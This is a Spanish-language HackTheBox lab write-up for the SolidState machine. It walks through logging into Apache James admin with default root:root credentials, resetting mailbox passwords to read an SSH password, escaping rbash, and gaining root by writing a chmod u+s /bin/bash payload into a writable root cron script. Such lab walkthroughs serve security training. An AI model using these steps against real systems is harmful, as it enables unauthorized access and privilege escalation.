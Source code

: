 ```yaml
---
title: "HackTheBox - /assets/SolidState"
layout: post
date: 2022-05-26 18:03
image: /assets/images/SQL_Injection.png
headerImage: true
tag:
- htb
- hacking
- writeup
category: blog
description: Writeup de /assets/SolidState
---
```


# /assets/SolidState

Dificultad: Medium
OS: Linux

# HackTheBox - /assets/SolidState

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina /assets/SolidState.

Es una máquina Linux con una dificultad media.

## Reconocimiento

Primero, aunque aparezca en el icono, es una buena práctica ver qué OS utiliza el objetivo. Para ello utilizaremos el comando `ping -c 1 {IP}` y viendo la ttl podemos saber contra qué nos enfrentamos de manera silenciosa (Linux:64 y Windows:128). En este vemos que es una máquina Linux.

![Untitled](/assets/SolidState/Untitled.png)

Nmap encuenta 6 puertos abiertos siendo estos el 22, 25, 80, 110, 119, 4555.

![Untitled](/assets/SolidState/Untitled%201.png)

Haciendo un escaneo de versiones sobre estos puertos encontramos que utiliza James 2.3.2, lo que más llama la atención es el puerto 4555, James Remote Administration Tool 2.3.2

![Untitled](/assets/SolidState/Untitled%202.png)

Buscando exploits encontramos un RCE, y en el código encontramos que los credenciales por defecto son root:root

![Untitled](/assets/SolidState/Untitled%203.png)

Y al intentar conectar vemos que las credenciales por defecto funcionan. Con help sacamos los comandos que nos deja ejecutar, siendo listusers y setpassword en las que nos centraremos.

![Untitled](/assets/SolidState/Untitled%204.png)

![Untitled](/assets/SolidState/Untitled%205.png)

Primero vamos a probar con el usuario de james.

```
setpassword james password
Password for james reset
```

Entramos y no tiene ningún correo, asi que procedemos a ir uno a uno mirando si algún usuario tiene correos.

![Untitled](/assets/SolidState/Untitled%206.png)

Rápidamente encontramos que john tiene un correo pidiendo que restrinja al usuario mindy y que la envíe un correo con una contraseña temporal

```text
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@/assets/SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by /assets/SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

En el correo de mindy encontramos el mensaje con el usuario y contraseña y ahora podemos acceder por ssh a la cuenta de mindy.

```text
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@/assets/SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by /assets/SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

![Untitled](/assets/SolidState/Untitled%207.png)

Nos encontramos que nos da una rbash (restricted shell) y solo podemos usar cat, env y ls. Al tener cat ya podemos leer flag.txt y tener el user.

![Untitled](/assets/SolidState/Untitled%208.png)

## Escalada de privilegios

No es problema tener una rbash ya que es muy fácil hacer bypass de la rbash, ya que cuando entramos en el ssh podemos especificar un comando, por lo que usando el parámetro -t y bash entramos en una bash.

![Untitled](/assets/SolidState/Untitled%209.png)

Para encontrar qué procesos se ejecutan a la larga, voy usar el comando `ps -eo command` que te saca todos los comandos que se van ejecutando y así compararlo con uno nuevo para ver que se ejecuta a la larga.

```bash
#!/bin/bash

last_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$last_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        last_process=$(ps -eo command)
done
```

Encontramos que cada x tiempo se ejecuta [tmp.py](http://tmp.py) que está en /opt asi que vamos a mirarlo.

![Untitled](/assets/SolidState/Untitled%2010.png)

Encontramos que pertenece al root y que puedo escribir en el, asi que ahora lo tenemos fácil.

![Untitled](/assets/SolidState/Untitled%2011.png)

![Untitled](/assets/SolidState/Untitled%2012.png)

Modifico el .py para otorgar privilegios SUID a la bash. Los privilegios SUID dan privilegios de ejecución del propietario, en este caso root.

```python
#!/usr/bin/env python

import os

os.system("chmod u+s /bin/bash")
```

Aquí se puede ver como se asigna ese bit s, por lo que ya tengo SUID.

![Untitled](/assets/SolidState/Untitled%2013.png)

Y ahora abriendo otra bash, tenemos privilegios de root y ende, la flag.

![Untitled](/assets/SolidState/Untitled%2014.png)